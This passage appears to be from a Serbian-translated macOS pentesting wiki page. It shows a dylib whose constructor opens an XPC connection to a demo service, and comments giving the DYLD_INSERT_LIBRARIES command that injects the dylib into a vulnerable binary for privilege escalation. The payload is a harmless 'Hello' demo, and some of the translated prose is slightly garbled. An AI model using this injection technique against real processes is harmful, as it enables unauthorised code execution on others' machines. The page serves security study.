 ````
    }

    // Izvršavanje funkcije unutar ciljnog procesa
    executeCode();

    dlclose(handle);
    return 0;
}
````

#### Zaključak

Korišćenje klijenta unutar Dylb koda omogućava izvršavanje koda unutar ciljnog procesa putem Dylb biblioteke. Ova tehnika može biti korisna za postizanje privilegija eskalacije i zloupotrebu procesa na macOS sistemu.

```objectivec
// gcc -dynamiclib -framework Foundation oc_xpc_client.m -o oc_xpc_client.dylib
// gcc injection example:
// DYLD_INSERT_LIBRARIES=oc_xpc_client.dylib /path/to/vuln/bin

#import <Foundation/Foundation.h>

@protocol MyXPCProtocol
- (void)sayHello:(NSString *)some_string withReply:(void (^)(NSString *))reply;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv)
{
NSString*  _serviceName = @"xyz.hacktricks.svcoc";

NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];

[_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(MyXPCProtocol)]];

[_agentConnection resume];

[[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
(void)error;
NSLog(@"Connection Failure");
}] sayHello:@"Hello, Server!" withReply:^(NSString *response) {
NSLog(@"Received response: %@", response);
}    ];
NSLog(@"Done!");

return;
}
```
